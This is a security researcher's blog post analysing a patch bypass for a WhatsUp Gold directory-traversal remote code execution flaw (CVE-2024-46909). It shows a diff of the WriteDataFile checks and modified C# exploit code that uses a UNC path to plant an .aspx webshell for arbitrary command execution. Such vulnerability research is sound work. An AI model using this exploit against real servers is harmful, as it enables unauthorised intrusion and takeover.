 ```yaml
---
layout: post
title: [CVE-2024-46909] Progress Software WhatsUp Gold WriteDataFile Directory Traversal Remote Code Execution Vulnerability 
tag:
- CVE
- RCE
---
```




I haven't done any CVE reverse engineer blogposts before but really wanted to do one, so I decided look at something this Advisory looked interesting and I already had some idea about it from a past blogpost from the original finder of the same bug 
@SinSinology  the vulnerable component name is same so it would be just a bypass of the old bug

Below you can find the original blogpost of the old bug, we have detailed blogpost and the poc too :

https://summoning.team/blog/progress-whatsup-gold-writedatafile-cve-2024-4883-rce/
https://github.com/sinsinology/CVE-2024-4883


The details looks exactly the same I so quicly downloaded the patched version to do a patch diff https://www.zerodayinitiative.com/advisories/ZDI-24-1645/ . I already had an old version installed so I took a backup of the following two files

```
C:\Program Files (x86)\Ipswitch\WhatsUp\NmAPI.exe
C:\Program Files (x86)\Ipswitch\WhatsUp\WUGDataAccess.dll
```

After downloading the latest version and installing it , I exported the source from dotPeek and did a diff using DiffMerge

The declaration of the `WriteDataFile` method is in the NmAPI.exe!NmAPI.CoreServices.cs

Here's the Diff version of the `WriteDataFile` method 

```diff
     public void WriteDataFile(EntityDataFileTransfer dataFile)
     {
-      if (dataFile.FileInfo.DirectoryName.Contains("..") || dataFile.FileInfo.DirectoryName.Contains(":") || dataFile.FileInfo.Name.Contains("..") || dataFile.FileInfo.Name.Contains(":"))

+      if (dataFile.FileInfo.DirectoryName.Contains("..") || dataFile.FileInfo.DirectoryName.Contains(":") || dataFile.FileInfo.Name.Contains("..") || dataFile.FileInfo.Name.Contains(":") || dataFile.FileInfo.Name.Contains<char>('\\') || dataFile.FileInfo.Name.Contains<char>('/') || dataFile.FileInfo.DirectoryName.StartsWith("\\") || dataFile.FileInfo.DirectoryName.StartsWith("/"))

         throw new ArgumentException("Invalid file or directory name");
       string str = Path.Combine(Directory.GetCurrentDirectory(), "Data" + dataFile.FileInfo.DirectoryName);
       string path = Path.Combine(str, dataFile.FileInfo.Name);

+      if (!Path.GetFullPath(path).StartsWith(Path.GetFullPath(str), StringComparison.OrdinalIgnoreCase))
+        throw new ArgumentException("Invalid directory");
       
       if (File.Exists(path))
       {
         File.SetAttributes(path, FileAttributes.Archive);
```

Initially the if checks for the `dataFile.FileInfo.DirectoryName` and `dataFile.FileInfo.Name` were added to resolve the old issue CVE-2024-4883 , we can see now they added more checks there

```cs
dataFile.FileInfo.Name.Contains<char>('\\')
dataFile.FileInfo.Name.Contains<char>('/')

dataFile.FileInfo.DirectoryName.StartsWith("\\")
dataFile.FileInfo.DirectoryName.StartsWith("/")
```

Basically they are just checking if the Name and DirectoryName property Contains or StartsWith `//` ,`\` characters or not.

For Windows `\\` is treated as Network Path (UNC Path) , for eg \\ServerName\SharedFolder . So I thought the bypass is related to that only , I went with this path of thinking , if C directory where Whatsupgold is installed is being shared then it might be accessible under `\\PC-Name\`

![image](https://gist.github.com/user-attachments/assets/f27b1a32-b63b-4143-b086-71fb77e2f3bf)

Just an example UNC path which could get pass the if check: `\\Desktop-5i7nkh0\c\Program Files (x86)\Ipswitch\WhatsUp\html\NmConsole`

--------------------------------


In the exploit which @SinSinology originaly wrote you can see how the path is specified. All we need to do replace the value for the `webshell_path` variable with the UNC one

```cs
            string webshell_path = @"C:\Program Files (x86)\Ipswitch\WhatsUp\html\NmConsole\" + webshell_name;

            EntityDataFileTransfer dataFile = new EntityDataFileTransfer
            {
                FileInfo = new EntityFileInfo
                {
                    DirectoryName = "test",
                    Name = webshell_path,
                    LastWriteTime = DateTime.Now
                },
                FileContents = System.IO.File.ReadAllBytes(webshell)
            };
            Console.WriteLine("(*) Using write what where primitive, to plant " + webshell_path);
            core_client.WriteDataFile(dataFile);
```

```cs
string webshell_path = @"\\Desktop-5i7nkh0\c\Program Files (x86)\Ipswitch\WhatsUp\html\NmConsole\" + webshell_name;
```

Then just Build the Solution and execute the binary. It will write the content pointed out by the  `webshell` file and it will be written in the `C:\Program Files (x86)\Ipswitch\WhatsUp\html\NmConsole\` on the targetted system.

Thus by visiting the uploaded .aspx file location we can execute arbitrary commands.

A small gif for the exploit in action:


